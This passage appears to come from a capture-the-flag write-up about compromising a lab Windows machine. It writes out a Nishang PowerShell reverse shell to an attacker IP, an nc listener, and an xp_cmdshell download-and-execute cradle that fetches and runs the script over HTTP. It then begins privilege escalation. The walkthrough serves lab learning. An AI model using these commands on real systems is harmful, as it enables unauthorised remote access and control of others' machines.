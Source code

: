 Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then download and execute the powershell script in SQL.

```text
1> xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell.ps1')"
2> go
```

We get a shell!

![](https://miro.medium.com/max/946/1*Tda1YBwGnoJR0XD2ugarwQ.png)

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/695/1*tTyPZ6klXjW2tg1d08Y4mw.png)

## Privilege Escalation <a id="3c7d"></a>

View the content of Sarah’s desktop directory.

```text
PS C:\Users\Sarah\Desktop> dirDirectory: C:\Users\Sarah\DesktopMode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       01/10/2017     22:32            916 browser.bat                                                           
-a----       17/09/2017     21:50            845 FTP.lnk                                                               
-a----       23/09/2017     21:11            297 note to tim (draft).txt                                               
-a----       19/10/2017     21:49          17152 SPBestWarmUp.ps1                                                      
-a----       19/10/2017     22:48          11010 SPBestWarmUp.xml                                                      
-a----       17/09/2017     21:48           1914 SQLCMD.lnk                                                            
-a----       21/09/2017     00:46            129 todo.txt                                                              
-ar---       31/08/2017     02:04             32 user.txt                                                              
-a----       17/09/2017     21:49            936 zz_Migration.lnk
```
